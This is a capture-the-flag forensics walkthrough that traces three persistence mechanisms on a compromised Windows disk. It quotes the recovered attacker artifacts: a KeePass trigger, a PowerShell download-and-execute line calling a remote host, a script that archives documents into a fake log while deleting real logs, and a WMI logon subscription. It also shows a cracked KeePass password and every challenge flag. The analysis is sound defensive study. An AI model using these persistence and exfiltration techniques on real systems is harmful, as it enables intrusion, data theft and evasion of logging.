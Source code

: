
 📝 _Category : Forensics 💯 _Number of points : 97_
 
### Challenge Description
A user on Windows 11 was compromised, and our objective was to identify three persistence mechanisms left on the disk.

We were provided with a ZIP file containing a disk extraction made using KAPE, a forensic tool designed for rapid artifact collection and parsing.

---

## Part 1 - Policy-Based Execution

Upon analyzing the extracted C drive files, I quickly noticed that the `Users` directory was empty, suggesting possible cleanup, evasion techniques, or simply that no user profiles were present in the extracted disk image. Checking installed applications in `C\Program Files\`, the only non-default program was **KeePass Password Safe 2**.  Digging deeper, I found two interesting policy files in its directory:


- `KeePass.config.enforced.xml`
- `KeePass.config.xml`

Inspecting `KeePass.config.enforced.xml`, I discovered an XML configuration specifying an automated execution mechanism:

```xml
<Configuration xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
<Application>
<TriggerSystem>
<Triggers>
<Trigger>
<Guid>YDo4UTpYMEywCLHDCJImtw==</Guid>
<Events>
<Event>
<TypeGuid>1M7NtUuYT/KmqeJVJh7I6A==</TypeGuid>
<Parameters/>
</Event>
</Events>
<Conditions/>
<Actions>
<Action>
<TypeGuid>2uX4OwcwTBOe7y66y27kxw==</TypeGuid>
<Parameters>
<Parameter>cmd.exe</Parameter>
<Parameter>SU5TX1BBUlQxe0tlM1BAcyRCYWNrRDAwcn0=</Parameter>
<Parameter>False</Parameter>
<Parameter>1</Parameter>
<Parameter/>
</Parameters>
</Action>
</Actions>
</Trigger>
</Triggers>
</TriggerSystem>
</Application>
</Configuration>
```

The **Base64-encoded string** caught my eye. Decoding it using **CyberChef** revealed the first flag:

**Flag 1:** `INS_PART1{Ke3P@sc@BackD00r}`

---

## Part 2 - PowerShell Logs & Malicious Service

Remembering previous challenges, I checked PowerShell logs, typically stored in `C:\Windows\System32\winevt\logs`. With only 380 events, it was manageable.

Two key logs stood out:

### Log 1 - Suspicious PowerShell Download (Event ID 600)

```powershell
HostApplication=powershell -nop -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.100.101:3000/CreateService.ps1')
```

This indicated a remote script execution.

### Log 2 - Execution of a Suspicious Script (Event ID 600)

```powershell
HostApplication=powershell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -File C:\Users\User\AppData\Roaming\Microsoft\WindowsBackup.ps1
```

Unfortunately, the script content wasn’t on disk. However, checking **`Microsoft-Windows-PowerShell`** logs (Event ID 4104), I found the executed PowerShell script:

```powershell
while ($true) {
    try {
        Compress-Archive -Path $env:USERPROFILE\Documents\* -DestinationPath C:\Windows\System32\winevt\logs\a.zip -Force
        Remove-Item -Path "C:\Windows\System32\winevt\logs\Microsoft-Windows-Hyper-V-VID-Admin.evtx" -Force
        Rename-Item -Path "C:\Windows\System32\winevt\logs\a.zip" -NewName "Microsoft-Windows-Hyper-V-VID-Admin.evtx" -Force
    } catch {}
    Start-Sleep -Seconds 86400  # 24h
}
```

This script:

- Continuously **archives user documents**
- Stores them in a **fake .evtx log file**, likely for exfiltration or local backup
- Deletes actual log files for stealth

Extracting the fake log:

```bash
$ mv C\Windows\System32\winevt\logs\Microsoft-Windows-Hyper-V-VID-Admin.evtx ./a.zip
$ unzip ./a.zip
```

Inside, I found:

- `flag.txt`
- `VeryConfidential.kdbx` (KeePass vault)

**Flag 2:** `INS_PART2{N@ughTyS3rv!ce}`

---

## Part 3 - WMI Persistence

I felt close to solving the last flag. I merged event logs using [Merge_the_events.ps1](https://github.com/abhinav-eyesOnglass/evtx/blob/master/Merge_the_events.ps1):

```powershell
.\Merge_the_events.ps1 -FolderPath QuietFruitLogs
```

Filtering between **16:25 - 16:30**, I found a **WMI Event Subscription**:

```powershell
instance of __EventFilter
{
    Query = "SELECT * FROM __InstanceCreationEvent WITHIN 5 WHERE TargetInstance ISA 'Win32_LogonSession'";
};
instance of CommandLineEventConsumer
{
    CommandLineTemplate = "cmd.exe /c C:\Users\User\Downloads\ChromeSetup.exe";
    Name = "ChromeUpdater";
};
```

This mechanism leverages **`__EventFilter`** to monitor logon sessions and triggers **`CommandLineEventConsumer`** to run `ChromeSetup.exe` whenever a user logs in, ensuring persistence.

Decoding another **Base64-encoded string**, I found:

**Flag 3:** `INS_PART3{WMI_Always_Does_The_Job}`

---

## Easter Eggs

Using the keepass2john:

```
$ python keepass2john.py VeryConfidential.kdbx > VeryConfidential.txt

$ john --format=keepass VeryConfidential.txt
```

John finds that password is `Sexyme`

Simply open the vault using the password, there is one entry called "Easter Egg" with the flag in it.

**Easter Egg Flag** : `INSOTP{E@st3rEgG!!!}`


---

## Final Flag

Concatenating all parts as instructed:

```
INS{Ke3P@sc@BackD00rN@ughTyS3rv!ceWMI_Always_Does_The_Job}
```

---

### Alternative Solution - Grepping Encoded Flags

Some players took a **faster but less investigative** approach by **grepping for Base64-encoded “INS”** or **strings-ing all binary files**. While effective for a CTF, my approach prioritized forensic methodology over speed, mimicking a real-world investigation.

**Final Thoughts:**

- Loved the mix of **policy-based execution, PowerShell abuse, and WMI persistence**.
- The **fake .evtx file** hiding exfiltrated data was a clever trick.
- It was a satisfying challenge with **real-world forensic relevance**!

![Challenge Resolved Grepping Base64 Meme](./images/MemeB64ChallResolved.png)
